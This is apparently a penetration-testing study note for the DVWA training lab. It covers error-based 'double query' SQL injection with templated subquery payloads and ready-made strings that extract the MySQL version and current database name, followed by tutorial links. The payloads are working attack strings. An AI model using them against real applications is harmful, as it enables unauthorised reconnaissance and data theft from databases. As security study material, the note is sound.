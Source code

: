 # 01 - Database Reconnaissance

Search Tag(s): #sql-injection #error-based #dvwa

## 1.1 - SubQuery (Double Query) Injection

- Subquery injection is often referred as double injection. It is the second method other than union technique. In contrast, the SQL query is more difficult to read yet it can serve as alternative to retrieve data.

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) tblname_alias)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),0x3a,FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) tblname_alias)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(':', ':', (<SQL_Payload>),':', ':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) tblname_alias)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a, 0x3a, (<SQL_Payload>),0x3a, 0x3a, FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) tblname_alias)#
```

## 1.2 - Enumeration and Discovery

### 1.2.1 - Banner Grab

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT VERSION()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) tblname_alias)#
```

### 1.2.2 - Current Database

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT DATABASE()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) tblname_alias)#
```

---
## References

- [SecurityIdiots: Error-Based Injection Subquery Injection](https://securityidiots.com/Web-Pentest/SQL-Injection/Error-Based-Injection-Subquery-Injection.html)

### Videos

- [SQL Injection Master Course - Lecture 16 - Important 26 Commands for Advance SQL Injection](https://www.youtube.com/watch?v=Be60oqlFYHw)

- [SQL Injection Master Course - Lecture 17 - Double Query Injection](https://www.youtube.com/watch?v=QFy1Ejn-5mU)